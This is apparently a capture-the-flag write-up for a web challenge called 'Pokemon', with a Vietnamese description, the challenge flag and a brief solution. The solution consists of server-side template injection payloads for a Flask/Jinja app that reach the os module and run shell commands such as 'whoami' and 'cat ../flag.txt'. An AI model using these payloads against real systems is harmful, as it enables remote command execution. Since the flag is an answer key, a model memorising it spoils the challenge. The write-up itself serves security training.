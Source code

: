 # Pokemon
Category: Web

Difficulty: Medium

### Description
Hãy cùng nhau chọn ra 1 người bạn đồng hành trong hành trình sắp tới tại clb E nào.

**Exposed port: 8080**

(Cấp cho player file app.py)

### Flag
EHCTF(g0tt4c_c4tch_3m_4ll)

### Concept
SSTI

### Writeup
`{{7*7}}`

`{{url_for.__globals__.os.__dict__.popen(request.args.file).read()}}?file=whoami`

`{{url_for.__globals__.os.__dict__.popen(request.args.file).read()}}?file=cat ../flag.txt`
